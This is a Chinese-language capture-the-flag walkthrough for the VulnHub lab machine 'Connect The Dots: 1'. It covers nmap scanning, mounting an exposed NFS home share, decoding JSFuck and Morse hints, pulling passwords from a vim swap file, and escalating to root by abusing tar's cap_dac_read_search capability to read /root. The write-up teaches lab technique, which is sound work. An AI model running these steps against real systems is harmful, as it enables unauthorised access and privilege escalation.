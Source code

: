 # Connect The Dots: 1

2024-6-11 https://www.vulnhub.com/entry/connect-the-dots-1,384/

difficulty: Beginner-Intermediate

## IP

192.168.5.35

## Scan

Open Port -> 21,80,111,2049,7822,33373,53341,55305,55413

```
PORT      STATE SERVICE  VERSION
21/tcp    open  ftp      vsftpd 2.0.8 or later
80/tcp    open  http     Apache httpd 2.4.38 ((Debian))
|_http-title: Landing Page
|_http-server-header: Apache/2.4.38 (Debian)
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      35567/udp6  mountd
|   100005  1,2,3      42073/tcp6  mountd
|   100005  1,2,3      53341/tcp   mountd
|   100005  1,2,3      58299/udp   mountd
|   100021  1,3,4      33373/tcp   nlockmgr
|   100021  1,3,4      41697/tcp6  nlockmgr
|   100021  1,3,4      53968/udp6  nlockmgr
|   100021  1,3,4      55869/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs_acl  3 (RPC #100227)
7822/tcp  open  ssh      OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey:
|   2048 384fe876b4b704650976dd234eb569ed (RSA)
|   256 acd2a60f4b4177df06f011d592399feb (ECDSA)
|_  256 93f7786fcce8d48d754bc2bc134bf0dd (ED25519)
33373/tcp open  nlockmgr 1-4 (RPC #100021)
53341/tcp open  mountd   1-3 (RPC #100005)
55305/tcp open  mountd   1-3 (RPC #100005)
55413/tcp open  mountd   1-3 (RPC #100005)
```

有 ssh、web、nfs 等服务。先看看 nfs 会不会暴露什么映射信息:

```
showmount -e 192.168.5.35
Export list for 192.168.5.35:
/home/morris *
```

mount 到 kali 上:

```
mkdir -p /tmp/nfs
sudo mount -t nfs -o rw,vers=3 192.168.5.35:/home/morris /tmp/nfs
```

进入 /tmp/nfs 后，发现.ssh 文件夹，里面有公钥和私钥对。
id_rsa.pub 发现用户名 morris，尝试用私钥进行登陆，但是不能成功：

```
ssh -i id_rsa morris@192.168.5.35 -p 7822
```

访问 http://192.168.5.35/，显示了一些文字信息和图片。

使用 gobuster 进行扫描：

```
gobuster -t 32 dir -u http://192.168.5.35/ -k -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,txt,html,rar,zip,sql -e
```

http://192.168.5.35/hits.txt : Remember! Keep your enumeration game strong!

http://192.168.5.35/backups.html 显示的是一个视频。

http://192.168.5.35/mysite 显示了一个列目录，有一个登陆页面，但是没发现登陆点。查看列目录中的其他文件，发现一个 http://192.168.5.35/mysite/bootstrap.min.cs 文件，内容像是 jsfuck，进行解码看看什么内容：

```
alert("You're smart enough to understand me. Here's your secret, TryToGuessThisNorris@2k19")
```

可能是 morris 的 ssh 密码，尝试登陆，不对。

重新看最开始的首页链接，里面说名字的首字母不一样，一个是 M 另一个是 N,并且上面的密码中也有一个 Norris，是否可能还有一个 norris 的用户，尝试使用 ssh 进行登陆。登陆成功 norris:TryToGuessThisNorris@2k19

发现了 user flag:

```
norris@sirrom:~$ cat user.txt
2c2836a138c0e7f7529aa0764a6414d0
```

发现 norris 中有一个 ftp 文件夹，里面有一些 bak 备份文件。查看 game.jpg.bak，发现跟主页上的文件大小不一样，很有可能有信息。exiftool 发现 Comment 中摩尔斯码：

```
.... . -.-- ....... -. --- .-. .-. .. ... --..-- ....... -.-- --- ..- .----. ...- . ....... -- .- -.. . ....... - .... .. ... ....... ..-. .- .-. .-.-.- ....... ..-. .- .-. ....... ..-. .- .-. ....... ..-. .-. --- -- ....... .... . .- ...- . -. ....... .-- .- -. -. .- ....... ... . . ....... .... . .-.. .-.. ....... -. --- .-- ..--.. ....... .... .- .... .- ....... -.-- --- ..- ....... ... ..- .-. . .-.. -.-- ....... -- .. ... ... . -.. ....... -- . --..-- ....... -.. .. -.. -. .----. - ....... -.-- --- ..- ..--.. ....... --- .... ....... -.. .- -- -. ....... -- -.-- ....... -... .- - - . .-. -.-- ....... .. ... ....... .- -... --- ..- - ....... - --- ....... -.. .. . ....... .- -. -.. ....... .. ....... .- -- ....... ..- -. .- -... .-.. . ....... - --- ....... ..-. .. -. -.. ....... -- -.-- ....... -.-. .... .- .-. --. . .-. ....... ... --- ....... --.- ..- .. -.-. -.- .-.. -.-- ....... .-.. . .- ...- .. -. --. ....... .- ....... .... .. -. - ....... .. -. ....... .... . .-. . ....... -... . ..-. --- .-. . ....... - .... .. ... ....... ... -.-- ... - . -- ....... ... .... ..- - ... ....... -.. --- .-- -. ....... .- ..- - --- -- .- - .. -.-. .- .-.. .-.. -.-- .-.-.- ....... .. ....... .- -- ....... ... .- ...- .. -. --. ....... - .... . ....... --. .- - . .-- .- -.-- ....... - --- ....... -- -.-- ....... -.. ..- -. --. . --- -. ....... .. -. ....... .- ....... .----. ... . -.-. .-. . - ..-. .. .-.. . .----. ....... .-- .... .. -.-. .... ....... .. ... ....... .--. ..- -... .-.. .. -.-. .-.. -.-- ....... .- -.-. -.-. . ... ... .. -... .-.. . .-.-.-
```

进行解码：

```
HEY NORRIS, YOU'VE MADE THIS FAR. FAR FAR FROM HEAVEN WANNA SEE HELL NOW? HAHA YOU SURELY MISSED ME, DIDN'T YOU? OH DAMN MY BATTERY IS ABOUT TO DIE AND I AM UNABLE TO FIND MY CHARGER SO QUICKLY LEAVING A HINT IN HERE BEFORE THIS SYSTEM SHUTS DOWN AUTOMATICALLY. I AM SAVING THE GATEWAY TO MY DUNGEON IN A 'SECRETFILE' WHICH IS PUBLICLY ACCESSIBLE.
```

提示有一个 SECRETFILE 文件

```
norris@sirrom:~/ftp/files$ find / -name secretfile 2>/dev/null
/var/www/html/secretfile

norris@sirrom:/var/www/html$ cat secretfile
I see you're here for the password. Holy Moly! Battery is dying !! Mentioning below for reference.
```

发现隐藏文件 .secretfile.swp 但是需要 www-data 的权限才能读取，通过浏览器访问，保存在 kali 上。

```
file secretfile.swp
secretfile.swp: Vim swap file, version 8.1, pid 4983, user root, host sirrom, file /var/www/html/secretfile, modified

strings secretfile.swp
b0VIM 8.1
root
sirrom
/var/www/html/secretfile
U3210
#"!
blehguessme090
I see you're here for the password. Holy Moly! Battery is dying !! Mentioning below for reference..
```

sirrom 、U3210、blehguessme090 可能为密码，系统上还有另外 2 个用户 root 和 morris 看看是哪个用户的，经过 su，发现 morris 的密码是 blehguessme090

继续进行系统枚举，找到提权到 root 的路径。

getcap 发现 /usr/bin/tar = cap_dac_read_search+ep 可以打包读取敏文文件：

```
morris@sirrom:/etc$ /usr/sbin/getcap -r / 2>/dev/null
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/tar = cap_dac_read_search+ep
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
/usr/bin/ping = cap_net_raw+ep

norris@sirrom:/var/www/html$ ls -al /usr/bin/tar
-r-xr-x--- 1 root norris 445560 Apr 23  2019 /usr/bin/tar

cd /tmp
tar -czf /tmp/root.tar.gz /root
cd /tmp
tar -zxf root.tar.gz

norris@sirrom:/tmp/root$ cat root.txt
8fc9376d961670ca10be270d52eda423
```

必须切换到 norris 来执行 tar。最终得到了 root flag

其他提权到 root 的路径都没有找到，使用 linpeas 发现 /usr/lib/policykit-1/polkit-agent-helper-1，尝试用这个看看能不能提权到 root:

```
systemd-run --shell
输入密码
root@sirrom:/# id
uid=0(root) gid=0(root) groups=0(root)
```

